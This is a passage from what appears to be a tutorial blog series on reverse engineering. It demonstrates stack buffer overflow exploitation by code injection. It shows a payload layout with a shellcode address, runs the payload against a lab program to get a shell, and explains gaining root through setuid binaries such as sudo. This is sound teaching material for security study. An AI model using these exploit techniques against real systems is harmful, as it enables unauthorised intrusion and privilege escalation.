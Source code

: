 			<'a' - 208 bytes><'b' - 4 bytes><Address of first byte of shellcode - 4 bytes>
			|------------------------------||--------------------------------------------|
						212 bytes							4 bytes


	* In my machine, the Address of first byte of shellcode = **0xffffd01a**. Let us change the **build_payload.c** accordingly and store the payload in **payload.txt**. 


7. Execute the exploit: 

		rev_eng_series/post_12$ cat payload.txt - | ./bof 
		Before calling func
		Address of SHELLCODE = 0xffffd01a

		whoami
		adwi

		who
		adwi     tty7         Dec  8 09:13 (:0)


	* Bingo! We got the shell!


With this, we have seen 2 methods of using Code Injection to exploit a BOF. Note that these are just 2 methods. You can invent your own method, and the method being used changes from situation to situation. 


There are 2 important things I would like to mention here. 


1. All this time, we were working on a terminal. And we exploit a BOF for what? to get a shell. But, we already had a shell right? This is the first thought I got when I read about BOF exploitation. But, there is more to this. Consider you somehow hack into the server using Reverse-TCP Shellcode. You now get a Standard user shell(not root shell :( ). You look around in the server and see a program which is **owned** by **root** but can be run by Standard users. You dissect that program to find a BOF in it. Now, you couldn't wait anymore. You chose one of the 2 methods discussed above and exploit it and get a shell! Now, what kind of shell would you get? You, would get a root shell!! This is because it's parent process is owned by root, even the shell is owned by root meaning it is a root shell. 

	* The point to understand is, in the above examples, we did not take such root-owned programs to demonstrate BOF exploitation. But, such root-owned programs exist. Take the **sudo** command for example. 

			rev_eng_series/post_12$ ls -l /usr/bin/sudo
			-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo

	* Look at it's credentials carefully. It's owner is root. It's group is root. But we(Standard users) run it whenever we want. These type of executables are known as **setuid** executables. 

	* **sudo** is said to setuid to root. What it means is, even when a Standard user runs it, it will run with root privileges.

	* Suppose you find a BOF in **sudo**. You can outright exploit it to get a root shell.

	* **setuid** is often called the **neccesary evil**. It is dangerous because of this, but it also required. So, be aware of what you are doing when you are dealing with **setuid**.

